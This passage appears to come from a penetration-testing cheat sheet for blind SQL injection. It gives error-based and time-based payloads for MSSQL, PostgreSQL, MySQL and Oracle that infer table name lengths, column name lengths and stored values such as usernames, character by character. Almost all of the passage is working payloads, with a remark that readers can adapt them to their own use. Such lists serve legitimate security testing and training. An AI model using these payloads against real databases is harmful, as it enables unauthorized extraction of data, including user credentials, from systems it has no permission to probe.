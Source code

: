 ```sql
IF ((SELECT LEN(productName) AS Length FROM (SELECT productName FROM (SELECT ROW_NUMBER() OVER (ORDER BY productName) AS RN, productName FROM ForgeRock) AS THING WHERE RN=1) AS THING))=6 WAITFOR DELAY '0:0:02'
```

### PostgreSQL (error based)

```sql
SELECT CASE WHEN (SELECT LENGTH FROM (SELECT ROW_NUMBER() OVER (ORDER BY TABLE_NAME) AS RN, TABLE_NAME, LENGTH(TABLE_NAME) AS LENGTH FROM INFORMATION_SCHEMA.TABLES) AS THING WHERE RN = 1)=33 THEN 1/(SELECT 0) ELSE NULL END AS THING
```

### PostgreSQL (time based)

```sql
SELECT CASE WHEN (SELECT LENGTH FROM (SELECT ROW_NUMBER() OVER (ORDER BY TABLE_NAME) AS RN, TABLE_NAME, LENGTH(TABLE_NAME) AS LENGTH FROM INFORMATION_SCHEMA.TABLES) AS THING WHERE RN = 1)=33 THEN (SELECT pg_sleep(10)) ELSE NULL END AS THING
```

### MySQL (error based)

```sql
SELECT IF((SELECT LENGTH(COLUMN_NAME) FROM (SELECT COLUMN_NAME FROM (SELECT (@row_number:=@row_number + 1) AS RN, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS, (SELECT @row_number:=0) AS RN WHERE TABLE_NAME = 'CHARACTER_SETS') AS RESULT WHERE RN = 1) AS THING)=18, (SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES), 'A')
```

### MySQL (time based

```sql
SELECT IF((SELECT LENGTH(COLUMN_NAME) FROM (SELECT COLUMN_NAME FROM (SELECT (@row_number:=@row_number + 1) AS RN, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS, (SELECT @row_number:=0) AS RN WHERE TABLE_NAME = 'CHARACTER_SETS') AS RESULT WHERE RN = 1) AS THING)=18, (SELECT SLEEP(10)), 'A')
```

## Enumerate values of columns

<aside>
💡 Conceptually, this is the same concept used to create the above payloads. You can modify any of the above to fit your desired use case.

</aside>

### Oracle

```sql
(SELECT CASE WHEN SUBSTR((SELECT USERNAME FROM (SELECT ROWNUM RN, USERNAME FROM USERS) WHERE RN=1),1,1)='A' THEN TO_CHAR(1/0) ELSE NULL END FROM DUAL)
```

[Payload syntaxes](https://www.notion.so/Payload-syntaxes-7d1a9ea1ba584b689f40210d2401e8a6?pvs=21)

[Time-based discovery payloads](https://www.notion.so/Time-based-discovery-payloads-5c41991ce9774215abce9ed8f50c1fb8?pvs=21)
